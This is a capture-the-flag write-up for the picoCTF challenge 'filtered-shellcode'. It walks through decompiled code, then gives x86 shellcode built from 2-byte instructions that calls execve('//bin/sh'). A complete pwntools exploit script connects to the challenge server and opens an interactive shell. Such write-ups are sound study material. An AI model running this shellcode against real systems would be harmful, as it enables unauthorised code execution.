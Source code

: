 # Writeup - filtered-shellcode
Category: Binary Exploitation, Points: 160


## Descpriton

> A program that just runs the code you give it? That seems kinda boring... 

We can connect to it with ` nc mercury.picoctf.net 37853` and a 32-bit binary file is shared.


## Vulnerability

If we decompile the binary through `ghidra` we get two functions inside the file. `main` and `execute`. The `main` function simply reads input character by character but the `execute` function is important.

Code for the `execute` function.

```c
void execute(int shellcode,int len)
{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This function basically runs shellcode, except if for every 2 bytes of shellcode it replaces the bytes with `0x90`. `0x90` means `nop`. So, if our shellcode is just written as is. It would be replaced with `0x90` for every 2 bytes.

Hence, our shellcode must have instructions that are at most 2 bytes long. 

The main idea is to call `execve("//bin/sh", NULL, NULL)`. But to do this successfully, our shellcode has to have 2-byte instructions. 

We can do this by converting assembly code into shellcode, with `pwntools`. So the main task is to come up with the assembly code to call `execve("//bin/sh", NULL, NULL)`.


## Exploit

The hard part is not calling `//bin/sh` with `execve`. It is writing the shellcode.

For context. `eax, ebx, ecx, edx` are general purpose registers. Each register has a purpose. With respect to the problem at hand `eax` acts like the function invoker. `ebx` is generally the first argument to the function, then `ecx` is second, `edx` is third so on.

To know more about 32-bit calling conventions. Visit this [page](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

The basic plan:

1. Push `//bin/sh` on to the stack, so that `esp` points to it.
2. `mov ebx, esp` register and assign `ecx` and `edx` to `0`. This would move `//bin/sh` to `ebx`.
3. `mov al, 11`. `11` is the 32-bit syscall for `execve`. This moves `execve` to `eax`.
4. `int 0x80` to call `execve` which would have `ebx` as its first argument.

```assembly
; Push "//bin/sh" on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters ebx = "//bin/sh", ecx = NULL, edx = NULL
mov ebx, esp
xor ecx, ecx
xor edx, edx

; eax = 11, ebx = "//bin/sh" -> execve("//bin/sh", NULL, NULL)
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

Now this is quite straightforward except that we need create 2-byte instruction shellcode.

Let's focus on how to trim each instruction to 2-bytes. If we now dig deeper into assembly x86, for each GP register, we have a way the data is stored.

```console
eax -> 00000000 00000000 00000000 00000000 
## If we set eax to something, say 104 -> mov al, 104
eax -> 00000000 00000000 00000000 00000104
## eax is 32 bit or 4 bytes long
## So, if can move the value towards the MSB we would have a 2-byte instruction.
```

To make a 2 byte instruction in `eax` we should keep multiplying `eax` into `16*16`. Since the binary for `256` is `100000000`, this would shift the value in `eax` by 8 bits. Which would inturn do this.

```console
eax -> 00000000 00000000 00000104 00000000
## Now eax contains a 2-byte instruction
```

Here is the final exploit.

```python
## this code is shamelessly copied - the refrence link has the original

import sys

from pwn import *

shellcode = """
/* set all GPRs to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* set the lower bit ebx to 16 */
mov bl, 16

/* push nop to esp */
push ecx
nop

/* n/sh -> (110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* //bi -> (47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall to execve (eax ebx) */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit call to set ebx to 0*/
mov al, 1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

sh = remote("mercury.picoctf.net", "37853") if sys.argv[1] == "remote" else process("./fun")
sh.recvuntil("run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

You should get the flag.


## Reference
[Link](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)

